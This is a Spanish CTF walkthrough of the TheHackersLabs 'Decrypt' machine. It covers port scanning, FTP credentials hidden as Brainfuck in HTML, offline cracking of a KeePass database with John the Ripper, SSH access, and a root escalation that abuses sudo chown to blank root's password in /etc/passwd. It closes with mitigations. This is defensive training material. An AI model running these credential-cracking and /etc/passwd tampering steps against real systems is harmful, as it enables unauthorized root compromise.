### Información General

|Campo|Detalle|
|---|---|
|Plataforma|TheHackersLabs|
|Máquina|Decrypt|
|IP|192.168.241.183|
|Dificultad|Fácil-Media|
|Sistema Operativo|Linux (Debian)|
|Servicios|SSH (22), HTTP (80), FTP (2121)|
|Vector inicial|Código Brainfuck en código fuente HTML → credenciales FTP → base de datos KeePass → SSH|
|Escalada de privilegios|`sudo NOPASSWD` sobre `chown` para modificar `/etc/passwd` y vaciar el campo de contraseña de root|

### Resumen del Ataque

El escaneo inicial mostró tres servicios: SSH, HTTP y un FTP en el puerto no estándar 2121. La página web por defecto de Apache escondía en su código fuente un fragmento de código Brainfuck, que al decodificarse (con dcode.fr) reveló las credenciales `mario:marioeatslettuce` para el FTP. Dentro del FTP se encontró una base de datos de KeePass (`user.kdbx`), cuya contraseña maestra se crackeó offline con `keepass2john` + John the Ripper y rockyou.txt, obteniendo `moonshine1`. Abriendo la base de datos con KeePassXC apareció una segunda credencial, `chiquero:barcelona2012`, válida para SSH. Una vez dentro como `chiquero`, `sudo -l` mostró permiso NOPASSWD sobre `chown`. Aunque no es un binario de ejecución directa, permitió cambiar el propietario de `/etc/passwd` a `chiquero`, editarlo con `nano` para vaciar el campo de contraseña de root (haciendo el login sin contraseña), devolver la propiedad a root, y finalmente ejecutar `su` para obtener una shell de root sin necesidad de contraseña.

### Técnicas Usadas

- Escaneo de puertos con Nmap (`-p-`, `-sC -sV`)
- Extracción y decodificación de código Brainfuck oculto en el código fuente HTML
- Acceso FTP con credenciales obtenidas
- Crackeo offline de base de datos KeePass (`keepass2john` + John the Ripper)
- Abuso de `sudo NOPASSWD` sobre `chown` para modificar la propiedad de `/etc/passwd` y editar el campo de contraseña de root

### Desarrollo

**1. Escaneo de puertos completo**

```
sudo nmap -p- -sS --min-rate 5000 -n -vvv -Pn -oN ports 192.168.241.183
```



**2. Detección de versiones y scripts**

```
nmap -p 22,80,2121 -sC -sV -oN allports 192.168.241.183
```



**3. Revisión web**

```
http://192.168.241.183/
```



Página por defecto de Apache.

**4. Código Brainfuck oculto en el código fuente**

```
++++++++++[>+++++++++++>++++++++++>+++++++++++>+++++++++++>+++++++++++>++++++++++>++++++++++>++++++++++++>++++++++++++>+++++++++++>++++++++++>++++++++++++>++++++++++++>++++++++++>++++++++++<<<<<<<<<<<<<<<-]>-.>---.>++++.>-----.>+.>+.>---.>----.>-----.>--.>+.>----..>---.>-.>+.
```



**5. Decodificación en dcode.fr**

```
https://www.dcode.fr/
```




Resultado: `marioeatslettuce`

**6. Credenciales FTP obtenidas**

```
User: mario
Pass: marioeatslettuce
```

**7. Acceso al FTP**

```
ftp 192.168.241.183 -p 2121 
``` 



**8. Listado y descarga de archivo**

```
ftp> ls
```



```
ftp> get user.kdbx
```

**9. Crackeo offline de la base de datos KeePass**

```
keepass2john user.kdbx > keepass.hash
```

```
john --wordlist=/usr/share/wordlists/rockyou.txt keepass.hash
```



**10. Apertura de la base de datos**

```
keepassxc user.kdbx  
``` 



Dentro de la base de datos aparece una segunda credencial:

```
chiquero : barcelona2012
```

**11. Acceso SSH como chiquero**

```
ssh chiquero@192.168.241.183
```

```
chiquero@Decryptor:~$ whoami
```



**12. Enumeración de usuarios con shell**

```
chiquero@Decryptor:~$ grep bash /etc/passwd
```



**13. Flag de usuario**

```
chiquero@Decryptor:~$ cd ../mario
chiquero@Decryptor:/home/mario$ cat user.txt 
```



**14. Revisión de privilegios sudo**

```
chiquero@Decryptor:/home/mario$ sudo -l
```



**15. Comprobación del propietario de /etc/passwd**

```
chiquero@Decryptor:/home/mario$ ls -la /etc/passwd
```



**16. Cambio de propietario con sudo chown**

```
chiquero@Decryptor:/home/mario$ sudo /usr/bin/chown chiquero /etc/passwd
```

**17. Edición de /etc/passwd para vaciar la contraseña de root**

```
chiquero@Decryptor:/home/mario$ nano /etc/passwd
```

Se elimina la `x` del campo de contraseña de la línea de root:



Al quedar vacío ese campo, el sistema interpreta que la cuenta de root no tiene contraseña.

**18. Restauración del propietario original**

```
chiquero@Decryptor:/home/mario$ sudo /usr/bin/chown root /etc/passwd
```

```
chiquero@Decryptor:/home/mario$ ls -la /etc/passwd
```



**19. Escalada a root**

```
chiquero@Decryptor:/home/mario$ su
```

```
root@Decryptor:/home/mario# whoami
```



**20. Flag de root**

```
root@Decryptor:/home/mario# cd /root
root@Decryptor:~# cat root.txt 
```



### Lecciones Aprendidas

- El Brainfuck (y esteganografía de texto en general) sigue siendo una forma efectiva de "seguridad por oscuridad" para ocultar credenciales dentro de código fuente, pero es trivialmente decodificable con herramientas online o intérpretes propios.
- Los archivos de bases de datos de gestores de contraseñas (`.kdbx`) expuestos en servicios como FTP son objetivos de alto valor: si la contraseña maestra es débil, todo su contenido queda comprometido offline.
- Permitir `sudo NOPASSWD` sobre `chown` es equivalente a dar control total sobre la propiedad de cualquier archivo del sistema, incluyendo `/etc/passwd` y `/etc/shadow`, lo que habilita una escalada de privilegios directa aunque el binario en sí "solo cambie permisos".
- Un campo de contraseña vacío en `/etc/passwd` (segundo campo tras los dos puntos) permite el login sin contraseña para ese usuario si el sistema no usa `/etc/shadow` de forma exclusiva, o si `su`/PAM cae de vuelta a ese campo.

### Medidas de Mitigación

- No confiar en la ocultación de credenciales mediante codificaciones "curiosas" (Brainfuck, Base64, ROT13, etc.) dentro de código fuente accesible públicamente; esto no es cifrado real.
- No expuesto archivos sensibles como bases de datos de gestores de contraseñas en servicios de transferencia de archivos sin control de acceso adicional.
- Forzar contraseñas maestras robustas en gestores de contraseñas como KeePass para resistir ataques de diccionario offline.
- Nunca otorgar `sudo NOPASSWD` sobre `chown`, `chmod` o utilidades similares de gestión de permisos/propiedad sin restringir estrictamente sobre qué rutas puede operar.
- Auditar cambios de propiedad y permisos sobre archivos críticos como `/etc/passwd` y `/etc/shadow`.

